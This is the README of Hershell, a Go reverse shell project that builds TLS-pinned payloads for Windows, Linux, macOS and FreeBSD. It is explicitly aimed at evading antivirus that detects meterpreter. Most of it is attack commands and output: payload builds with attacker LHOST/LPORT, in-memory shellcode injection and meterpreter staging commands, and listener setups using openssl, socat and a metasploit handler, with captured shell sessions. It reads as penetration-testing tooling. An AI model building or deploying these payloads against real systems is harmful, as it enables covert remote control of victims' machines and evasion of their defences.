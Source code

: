 # Hershell

Simple TCP reverse shell written in [Go](https://golang.org).

It uses TLS to secure the communications, and provide a certificate public key fingerprint pinning feature, preventing from traffic interception.

Supported OS are:

- Windows
- Linux
- Mac OS
- FreeBSD and derivatives

## Why ?

Although meterpreter payloads are great, they are sometimes spotted by AV products.

The goal of this project is to get a simple reverse shell, which can work on multiple systems,

## How ?

Since it's written in Go, you can cross compile the source for the desired architecture.

### Building the payload

To simplify things, you can use the provided Makefile.
You can set the following environment variables:

- ``GOOS`` : the target OS
- ``GOARCH`` : the target architecture
- ``LHOST`` : the attacker IP or domain name
- ``LPORT`` : the listener port

For the ``GOOS`` and ``GOARCH`` variables, you can get the allowed values [here](https://golang.org/doc/install/source#environment).

However, some helper targets are available in the ``Makefile``:

- ``depends`` : generate the server certificate (required for the reverse shell)
- ``windows32`` : builds a windows 32 bits executable (PE 32 bits)
- ``windows64`` : builds a windows 64 bits executable (PE 64 bits)
- ``linux32`` : builds a linux 32 bits executable (ELF 32 bits)
- ``linux64`` : builds a linux 64 bits executable (ELF 64 bits)
- ``macos`` : builds a mac os 64 bits executable (Mach-O)

For those targets, you just need to set the ``LHOST`` and ``LPORT`` environment variables.

### Using the shell

Once executed, you will be provided with a remote shell.
This custom interactive shell will allow you to execute system commands through `cmd.exe` on Windows, or `/bin/sh` on UNIX machines.

The following special commands are supported:

* ``run_shell`` : drops you an system shell (allowing you, for example, to change directories)
* ``inject <base64 shellcode>`` : injects a shellcode (base64 encoded) in the same process memory, and executes it (Windows only at the moment)
* ``meterpreter IP:PORT`` : connects to a multi/handler to get a stage2 reverse tcp meterpreter from metasploit, and execute the shellcode in memory (Windows only at the moment)
* ``exit`` : exit gracefully

## Examples

First of all, you will need to generate a valid certificate:
```bash
$ make depends
openssl req -subj '/CN=sysdream.com/O=Sysdream/C=FR' -new -newkey rsa:4096 -days 3650 -nodes -x509 -keyout server.key -out server.pem
Generating a 4096 bit RSA private key
....................................................................................++
.....++
writing new private key to 'server.key'
-----
cat server.key >> server.pem
```

For windows:

```bash
# Custom target
$ make GOOS=windows GOARCH=amd64 LHOST=192.168.0.12 LPORT=1234
# Predifined target
$ make windows32 LHOST=192.168.0.12 LPORT=1234
```

For Linux:
```bash
# Custom target
$ make GOOS=linux GOARCH=amd64 LHOST=192.168.0.12 LPORT=1234
# Predifined target
$ make linux32 LHOST=192.168.0.12 LPORT=1234
```

For Mac OS X
```bash
$ make macos LHOST=192.168.0.12 LPORT=1234
```

## Listeners

On the server side, you can use the openssl integrated TLS server:

```bash
$ openssl s_server -cert server.pem -key server.key -accept 1234
Using default temp DH parameters
ACCEPT
bad gethostbyaddr
-----BEGIN SSL SESSION PARAMETERS-----
MHUCAQECAgMDBALALwQgsR3QwizJziqh4Ps3i+xHQKs9lvp5RfsYPWjEDB68Z4kE
MHnP0OD99CHv2u27THKvCHCggKEpgrPnKH+vNGJGPJZ42QylfkekhSwY5Mtr5qYI
5qEGAgRYgSfgogQCAgEspAYEBAEAAAA=
-----END SSL SESSION PARAMETERS-----
Shared ciphers:ECDHE-RSA-AES128-GCM-SHA256:ECDHE-ECDSA-AES128-GCM-SHA256:ECDHE-RSA-AES256-GCM-SHA384:ECDHE-ECDSA-AES256-GCM-SHA384:ECDHE-RSA-AES128-SHA:ECDHE-ECDSA-AES128-SHA:ECDHE-RSA-AES256-SHA:ECDHE-ECDSA-AES256-SHA:AES128-GCM-SHA256:AES256-GCM-SHA384:AES128-SHA:AES256-SHA:ECDHE-RSA-DES-CBC3-SHA:DES-CBC3-SHA
Signature Algorithms: RSA+SHA256:ECDSA+SHA256:RSA+SHA384:ECDSA+SHA384:RSA+SHA1:ECDSA+SHA1
Shared Signature Algorithms: RSA+SHA256:ECDSA+SHA256:RSA+SHA384:ECDSA+SHA384:RSA+SHA1:ECDSA+SHA1
Supported Elliptic Curve Point Formats: uncompressed
Supported Elliptic Curves: P-256:P-384:P-521
Shared Elliptic curves: P-256:P-384:P-521
CIPHER is ECDHE-RSA-AES128-GCM-SHA256
Secure Renegotiation IS supported
Microsoft Windows [version 10.0.10586]
(c) 2015 Microsoft Corporation. Tous droits rservs.

C:\Users\LAB2\Downloads>
```

Or even better, use socat with its __readline__ module, which gives you a handy history feature:

```bash
$ socat readline openssl-listen:1234,fork,reuseaddr,verify=0,cert=server.pem
Microsoft Windows [version 10.0.10586]
(c) 2015 Microsoft Corporation. Tous droits rservs.

C:\Users\LAB2\Downloads>
```

Or, and this is great, use a metasploit handler:

```bash
[172.17.0.2][Sessions: 0][Jobs: 0]: > use exploit/multi/handler
[172.17.0.2][Sessions: 0][Jobs: 0]: exploit(handler) > set payload python/shell_reverse_tcp_ssl
payload => python/shell_reverse_tcp_ssl
[172.17.0.2][Sessions: 0][Jobs: 0]: exploit(handler) > set lhost 192.168.122.1
lhost => 192.168.122.1
[172.17.0.2][Sessions: 0][Jobs: 0]: exploit(handler) > set lport 4444
lport => 4444
[172.17.0.2][Sessions: 0][Jobs: 0]: exploit(handler) > set handlersslcert /tmp/data/server.pem
handlersslcert => /tmp/data/server.pem
[172.17.0.2][Sessions: 0][Jobs: 0]: exploit(handler) > set exitonsession false
exitonsession => false
[172.17.0.2][Sessions: 0][Jobs: 0]: exploit(handler) > exploit -j
[*] Exploit running as background job.

[-] Handler failed to bind to 192.168.122.1:4444
[*] Started reverse SSL handler on 0.0.0.0:4444
[*] Starting the payload handler...
[172.17.0.2][Sessions: 0][Jobs: 1]: exploit(handler) >
[*] Command shell session 1 opened (172.17.0.2:4444 -> 172.17.0.1:51995) at 2017-02-09 12:07:51 +0000
[172.17.0.2][Sessions: 1][Jobs: 1]: exploit(handler) > sessions -i 1
[*] Starting interaction with 1...

Microsoft Windows [version 10.0.10586]
(c) 2015 Microsoft Corporation. Tous droits rservs.

C:\Users\lab1\Downloads>whoami
whoami
desktop-jcfs2ok\lab1

C:\Users\lab1\Downloads>
```

## Credits

Ronan Kervella `<r.kervella -at- sysdream -dot- com>`
